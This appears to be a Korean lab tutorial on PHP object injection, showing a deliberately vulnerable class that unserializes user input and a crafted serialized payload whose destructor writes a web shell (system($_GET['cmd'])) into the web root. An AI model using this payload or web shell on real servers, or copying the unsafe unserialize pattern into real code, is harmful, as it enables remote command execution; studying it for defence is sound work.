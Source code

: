 # unserialize

직렬화된 데이터를 저장된 형태로 변환하는 함수이다.

오브젝트 생성 시 호출되는 Magic Method는 생성자(__construct)이고, 

오브젝트가 소멸 시 호출되는 Magic Method는 소멸자(__destruct)이다.

역직렬화(unserialize)는 __wakeup 후 __destruct가 호출된다.

다음 예제처럼 역직렬화와 소멸자를 이용하여 공격해보자.

# **INDEX**

**1. [환경 구성](#환경-구성)**

**2. [Object Injection](#Object-Injection)**


# **환경 구성**

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.0.58              |
| apache2       | 2.4.41-4ubuntu3.10        |
| php           | 7.4.3                     |

apache와 php를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php
```

취약한 class가 포함된 php파일을 생성하자.

```php
<?php
	class LoggingClass {
		function __construct($filename, $content) {
			$this->filename = "/var/www/html/log/".$filename . ".log";
			$this->content = $content;
		}
		
		function __destruct() {
			file_put_contents($this->filename, $this->content, FILE_APPEND);
		}
	}
	$test1 = new LoggingClass('hello', 'world'.PHP_EOL);
	echo serialize($test1)."<br>";
	$data = unserialize($_GET['data']);
?>
```

해당 파일이 동작하기 위해서는 file_put_contents함수로 파일에 접근 시 권한이 있어야 한다.

```sh
root@ubuntu:/var/www/html# mkdir log
root@ubuntu:/var/www/html# chown -R www-data:www-data log
```

# **Object Injection**

페이지에 접근하면 다음과 같은 직렬화된 데이터가 나온다.

    O:12:"LoggingClass":2:{s:8:"filename";s:27:"/var/www/html/log/hello.log";s:7:"content";s:6:"world ";}

소멸자가 호출될 때 파일을 생성하므로 다음과 같이 데이터를 GET method로 전달하면 /log/shell.php가 생성된다.

    O:12:"LoggingClass":2:{s:8:"filename";s:27:"/var/www/html/log/shell.php";s:7:"content";s:29:"<?php system($_GET["cmd"]);?>";}